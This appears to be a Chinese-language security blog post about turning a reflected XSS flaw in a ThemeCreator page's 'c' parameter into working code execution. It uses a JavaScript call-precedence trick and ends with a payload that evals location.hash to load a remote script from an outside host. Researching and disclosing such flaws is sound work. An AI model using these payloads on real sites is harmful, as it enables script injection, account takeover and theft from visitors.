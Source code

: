 ```yaml
---
layout: post
title: 原本丢掉的跨站漏洞 - JavaScript 特性利用
---
```

#### I.1

今天睡醒后我想到之前的“漏洞”好像可以利用特性让它变成真的漏洞，简单说下功能点。我在测试越权操作的过程中发现未登录的情况下访问创建主题的 URL 站点会进行跳转，为了看清源码使用 View-Source ，这里发现可控点为 c 参数。

[view-source:masaike/ThemeCreator/index.aspx?c=QAQ)QAQ(QAQ](view-source:masaike/ThemeCreator/index.aspx?c=QAQ\)QAQ\(QAQ)    <script type="text/javascript">
    window.open('/login.aspx?burl=http%3a%2f%2fmasaike%2fThemeCreator%2findex.aspx%3fc%3dQAQ)QAQ(QAQ','_top');
    </script>

对特殊字符进行测试（ `> , < | () : ' " \ % ; & 空格 ...` ）后发现仅允许使用 ` . ' () ` 这4个特殊字符，由于我们得知单引号可以使用，所以思考这里直接闭合 `window.open('/url?QAQ')` 参数然后注入恶意代码便完成了这次攻击，但由于 JS 的 解析错误处理顺序如果不闭合前面语句及注释后面语句是无法执行我们注入的恶意代码的。例如：

    window.open('/1231')alert(1)1','_top');
    window.open('/1231');alert(1)1','_top');
    window.open('/1231')alert(1)//1','_top');

#### II.2

在能闭合 window.open(' 但不能 ; 结束语句的情况下，虽然不能使用其他字符，但这里通过利用 JavaScript 的特性也可以做到执行注入的 JS 代码。

> 常量或已声明的变量及函数+(jscode) 经过解释器的优先级会先执行(jscode)随后报错：VM98:2 Uncaught TypeError: xxxx is not a function(…) 

- 1(console.log(1))
- a(console.log(1))
- document(console.log(1))

上面 3 种情况对应运行结果：

![http://ww3.sinaimg.cn/large/c334041bjw1f34d050c83j20my09o0u9.jpg](http://ww3.sinaimg.cn/large/c334041bjw1f34d050c83j20my09o0u9.jpg)

可以看到在触发 `Uncaught TypeError: xxxx is not a function(…) ` 之前我们优先执行了注入的代码，但如果 `xxx is not defined` 优先级会触发报错且不运行注入代码，在这种漏洞环境因素下我们可以利用如上特性来闭合（不结束语句）执行注入的代码，虽然它依旧会报错。

> 上面结论是我得出的，可能会存在误解 xD

e.g:

    ')(confirm(1))('1111

View-Source:

    <script type="text/javascript">window.open('/login.aspx?burl=masaike%2fThemeCreator%2findex.aspx%3fc%3d')(confirm(1))('1111','_top');</script>

Result:

![http://ww2.sinaimg.cn/large/c334041bjw1f34d7d9ymzj20oa0203yq.jpg](http://ww2.sinaimg.cn/large/c334041bjw1f34d7d9ymzj20oa0203yq.jpg)

#### III.3

在运行完毕我们注入的代码后，随后解释器触发了异常，但没有关系代码已经得到了执行 :)

现在开始编写 Payload 以便加载恶意的远程 JS 代码，我想了下准备使用其中一种：

- eval(String.fromCharCode(97,108,101,114,116,40,49,41))
- document.body.appendChild(...
- eval(location.hash.split('#')[1])
- ...

但开始说到逗号，空格等特殊字符均被过滤，我们仅仅使用的【特殊字符】只有：`' () .` ，这里我采用了最后一种，虽然 split()[] 我们无法使用，但是可以使用 `location.hash.substr(1)` 来包含我们注入在 hash 上的恶意代码。

最终 Payload 如下 [Work: Chrome:Version 49.0.2623.112]：

    ')(eval(location.hash.substr(1)))('#a=document;a.write('<body>');a.body.appendChild(a.createElement(/script/.source)).src='http://rm-rf.gg'

    /index.aspx?c=%27)(eval(location.hash.substr(1)))(%271111#a=document;a.write('<body>');a.body.appendChild(a.createElement(/script/.source)).src='http://rm-rf.gg'

![http://ww1.sinaimg.cn/large/c334041bjw1f34diku8uej215o09gwfx.jpg](http://ww1.sinaimg.cn/large/c334041bjw1f34diku8uej215o09gwfx.jpg)